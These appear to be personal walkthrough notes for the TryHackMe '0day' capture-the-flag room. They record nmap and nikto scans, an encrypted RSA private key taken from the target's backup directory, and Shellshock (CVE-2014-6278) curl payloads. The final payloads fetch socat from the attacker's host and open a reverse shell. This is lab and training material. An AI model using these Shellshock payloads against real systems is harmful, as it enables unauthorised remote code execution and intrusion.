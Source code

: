 ## 08082023Tue

[TryHackMe | 0day](https://tryhackme.com/room/0day)

```
Exploit Ubuntu, like a Turtle in a Hurricane
```

![[Pasted image 20230808114325.png]]

![[Pasted image 20230808114627.png]]

[0day -- Writeup | MuirlandOracle | Blog](https://muirlandoracle.co.uk/2020/09/03/0day-writeup/)

```
nmap -p- -vv 10.10.238.56 -oG initial-scan
```

![[Pasted image 20230808115246.png]]
![[Pasted image 20230808115323.png]]

```
nmap -p 22,80 -vv -sV -sC 10.10.238.56 -oN common-scan
```

![[Pasted image 20230808125809.png]]

```
nikto --url 10.10.238.56 | tee nikto-results
```
![[Pasted image 20230808140801.png]]
http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6278

view-source:http://0day.thm/secret/
```
<html>
<head>
<title>Turtles?</title>
</head>
<body>
<center><img src="turtle.png"></center>
</body>
</html>
```
![[Pasted image 20230808130809.png]]

view-source:http://0day.thm/backup/
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,82823EE792E75948EE2DE731AF1A0547

T7+F+3ilm5FcFZx24mnrugMY455vI461ziMb4NYk9YJV5uwcrx4QflP2Q2Vk8phx
H4P+PLb79nCc0SrBOPBlB0V3pjLJbf2hKbZazFLtq4FjZq66aLLIr2dRw74MzHSM
FznFI7jsxYFwPUqZtkz5sTcX1afch+IU5/Id4zTTsCO8qqs6qv5QkMXVGs77F2kS
Lafx0mJdcuu/5aR3NjNVtluKZyiXInskXiC01+Ynhkqjl4Iy7fEzn2qZnKKPVPv8
9zlECjERSysbUKYccnFknB1DwuJExD/erGRiLBYOGuMatc+EoagKkGpSZm4FtcIO
IrwxeyChI32vJs9W93PUqHMgCJGXEpY7/INMUQahDf3wnlVhBC10UWH9piIOupNN
SkjSbrIxOgWJhIcpE9BLVUE4ndAMi3t05MY1U0ko7/vvhzndeZcWhVJ3SdcIAx4g
/5D/YqcLtt/tKbLyuyggk23NzuspnbUwZWoo5fvg+jEgRud90s4dDWMEURGdB2Wt
w7uYJFhjijw8tw8WwaPHHQeYtHgrtwhmC/gLj1gxAq532QAgmXGoazXd3IeFRtGB
6+HLDl8VRDz1/4iZhafDC2gihKeWOjmLh83QqKwa4s1XIB6BKPZS/OgyM4RMnN3u
Zmv1rDPL+0yzt6A5BHENXfkNfFWRWQxvKtiGlSLmywPP5OHnv0mzb16QG0Es1FPl
xhVyHt/WKlaVZfTdrJneTn8Uu3vZ82MFf+evbdMPZMx9Xc3Ix7/hFeIxCdoMN4i6
8BoZFQBcoJaOufnLkTC0hHxN7T/t/QvcaIsWSFWdgwwnYFaJncHeEj7d1hnmsAii
b79Dfy384/lnjZMtX1NXIEghzQj5ga8TFnHe8umDNx5Cq5GpYN1BUtfWFYqtkGcn
vzLSJM07RAgqA+SPAY8lCnXe8gN+Nv/9+/+/uiefeFtOmrpDU2kRfr9JhZYx9TkL
wTqOP0XWjqufWNEIXXIpwXFctpZaEQcC40LpbBGTDiVWTQyx8AuI6YOfIt+k64fG
rtfjWPVv3yGOJmiqQOa8/pDGgtNPgnJmFFrBy2d37KzSoNpTlXmeT/drkeTaP6YW
RTz8Ieg+fmVtsgQelZQ44mhy0vE48o92Kxj3uAB6jZp8jxgACpcNBt3isg7H/dq6
oYiTtCJrL3IctTrEuBW8gE37UbSRqTuj9Foy+ynGmNPx5HQeC5aO/GoeSH0FelTk
cQKiDDxHq7mLMJZJO0oqdJfs6Jt/JO4gzdBh3Jt0gBoKnXMVY7P5u8da/4sV+kJE
99x7Dh8YXnj1As2gY+MMQHVuvCpnwRR7XLmK8Fj3TZU+WHK5P6W5fLK7u3MVt1eq
Ezf26lghbnEUn17KKu+VQ6EdIPL150HSks5V+2fC8JTQ1fl3rI9vowPPuC8aNj+Q
Qu5m65A5Urmr8Y01/Wjqn2wC7upxzt6hNBIMbcNrndZkg80feKZ8RD7wE7Exll2h
v3SBMMCT5ZrBFq54ia0ohThQ8hklPqYhdSebkQtU5HPYh+EL/vU1L9PfGv0zipst
gbLFOSPp+GmklnRpihaXaGYXsoKfXvAxGCVIhbaWLAp5AybIiXHyBWsbhbSRMK+P
-----END RSA PRIVATE KEY-----
```

![[Pasted image 20230808131034.png]]


```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/whoami;" http://10.10.238.56/cgi-bin/test.cgi
```
![[Pasted image 20230808131900.png]]
![[Pasted image 20230808132054.png]]
![[Pasted image 20230808132234.png]]

```
python3 -m http.server 80
```

```
sudo socat tcp-l:53 file:`tty`,raw,echo=0
```

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /usr/bin/wget 10.17.44.152/socat -q -O /tmp/socat; /bin/chmod +x /tmp/socat" http://10.10.238.56/cgi-bin/test.cgi
```
![[Pasted image 20230808132610.png]]
![[Pasted image 20230808132638.png]]

```
curl -A "() { :;}; echo Content-Type: text/html; echo; /tmp/socat tcp:10.17.44.152:53 exec:'bash -li',pty,stderr,sigint,setsid,sane" http://10.10.238.56/cgi-bin/test.cgi
```
